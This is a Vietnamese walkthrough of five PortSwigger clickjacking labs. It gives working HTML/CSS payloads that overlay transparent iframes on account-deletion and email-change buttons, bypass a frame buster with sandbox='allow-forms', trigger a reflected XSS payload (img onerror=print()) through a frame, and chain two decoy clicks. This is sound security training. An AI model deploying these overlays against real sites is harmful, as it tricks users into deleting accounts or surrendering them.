# [Lab 1: Basic clickjacking with CSRF token protection](https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected)



> - **Mô tả lab:** Có chức năng đăng nhập và xóa tài khoản được bảo vệ bằng `CSRF token`. Người dùng sẽ nhấp vào các phần tử hiển thị `click` trên trang web mồi nhử.
> 
> - **Mục tiêu:** Tạo `HTML iframe` trang tài khoản và đánh lừa người dùng xóa tài khoản của họ. Lab sẽ solve khi tài khoản bị xóa.

Đăng nhập với `wiener:peter`



Ta thấy có chức năng `Delete account` để xóa tài khoản, được bảo vệ bằng `CSRF token` do đó ta không thể tạo `form` để lừa người dùng được mà lúc này ta sẽ nhúng 1 `iframe` hiển thị đằng sau 1 nút mà người dùng sẽ click vào.


Thực hiện thêm `HTML` và lưu trữ trên `Exploit-server`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 600px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 496px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ab000fb03f531eb805abd7900e200f2.web-security-academy.net/my-account"></iframe>
```

`View exploit` xem kết quả, ta thấy `Click` đã nằm hoàn hảo trên nút `Delete account`



Giờ ta sẽ chỉnh `opacity` về `0.0001` để nó mờ đi hoàn toàn để dễ thực hiện tấn công.



Gửi cho nạn nhân và solve


# [Lab 2: Clickjacking with form input data prefilled from a URL parameter](https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input)



> - **Mô tả lab:** Thay đổi địa chỉ email của người dùng bằng cách điền trước biểu mẫu bằng tham số URL và lôi kéo người dùng vô tình nhấp vào nút `Update email`. 
> 
> - **Mục tiêu:** Tạo `HTML iframe` trang tài khoản và đánh lừa người dùng cập nhật email của họ. Lab sẽ solve khi email bị thay đổi.

Đăng nhập với `wiener:peter`


Chức năng `Update email` cần phải nhập giá trị mới có thể thay đổi và nó cũng được bảo vệ bởi `CSRF token`


Tuy nhiên thì ta có thể nhập trước giá trị của email trên URL, quan sát form trên ta thấy tên tham số cần thay đổi email là `email`


Thực hiện thêm `HTML` và lưu trữ trên `Exploit-server`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 448px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ab6003c049c20c580d912c600c20019.web-security-academy.net/my-account?email=test2@test"></iframe>
```

`View exploit`, ta thấy `Click me` đã nằm hoàn hảo trên `Update email` rồi


Ta sẽ giảm `opacity` về `0.0001` để tấn công, iframe đã mờ đi và chỉ còn `Click me`


Gửi cho nạn nhân và solve


# [Lab 3: Clickjacking with a frame buster script](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script)


> - **Mô tả lab:** Lab này được bảo vệ bằng bộ chặn khung nhằm ngăn chặn việc trang web bị đóng khung. Hãy vượt qua bộ chặn khung và tiến hành một cuộc tấn công `clickjacking` làm thay đổi địa chỉ email của người dùng.
> 
> - **Mục tiêu:** Tạo `HTML iframe` trang tài khoản và đánh lừa người dùng cập nhật email của họ. Lab sẽ solve khi email bị thay đổi.

Đăng nhập với `wiener:peter`, ta sẽ thấy chức năng `Update email`



Tuy nhiên ngoài việc được bảo vệ bởi `CSRF token` thì chức năng này còn hạn chế ta sử dụng `iframe`



Do đó nếu thêm `iframe` như **lab 2** thì sẽ không thành công



Ta sẽ đặt giá trị `allow-forms` vào `iframe`

```
<style>
    iframe {
        position: relative;
        width: 800px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 448px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe sandbox="allow-forms" src="https://0a0b00ff04d620b480232b8800e80093.web-security-academy.net/my-account?email=test2@test"></iframe>
```

Kết quả là thành công rồi



Tiếp tục chỉnh `opacity`, sau đó gửi cho nạn nhân và solve thôi


# [Lab 4: Exploiting clickjacking vulnerability to trigger DOM-based XSS](https://portswigger.net/web-security/clickjacking/lab-exploiting-to-trigger-dom-based-xss)


> - **Mô tả lab:** Lab này chứa lỗ hổng `XSS` được kích hoạt bằng một cú nhấp chuột.
> 
> - **Mục tiêu:** Xây dựng một cuộc tấn công `clickjacking` đánh lừa người dùng nhấp vào nút `Click me` để gọi hàm `print()`.

Khi mới vào lab, ta sẽ thấy chức năng `Submit feedback`, ta test thử xem có bị `XSS` không



Khi ta nhập thì phát hiện, `name` sẽ được `reflected` trong thông báo submit feedback thành công



Ta thử chèn vào `name` 1 ảnh lỗi `
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 806px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a33008a032d832d8209d9560020006d.web-security-academy.net/feedback/?name=%3Cimg+src%3D%221%22+onerror%3Dprint%28%29%3E&email=a%40test&subject=a&message=a"></iframe>
```

`View exploit` xem thử kết quả



OK, perfect, gửi cho nạn nhân và solve thôi


# [Lab 5: Multistep clickjacking](https://portswigger.net/web-security/clickjacking/lab-multistep)



> - **Mô tả lab:** Lab này có một số chức năng tài khoản được bảo vệ bằng mã thông báo CSRF và cũng có hộp thoại xác nhận để bảo vệ khỏi Clickjacking.
> 
> - **Mục tiêu:** Xây dựng một cuộc tấn công đánh lừa người dùng nhấp vào nút xóa tài khoản và hộp thoại xác nhận bằng cách nhấp vào hành động mồi nhử "Click me first" và "Click me next".

Vẫn là `Delete account`


Nhưng khác là giờ ta còn phải thêm bước `Confirm`



Như vậy ta cần phải xây dựng click 2 lần rồi

```
<style>
	iframe {
		position: relative;
		width: 800px;
		height: 600px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position: absolute;
		top: 496px;
		left: 60px;
		z-index: 1;
	}
   .secondClick {
		top: 295px;
		left: 210px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://0acf002e04cc169b801c53b400420067.web-security-academy.net/my-account"></iframe>
```

`View exploit` xem thử kết quả



OK, perfect, gửi cho nạn nhân và solve lab

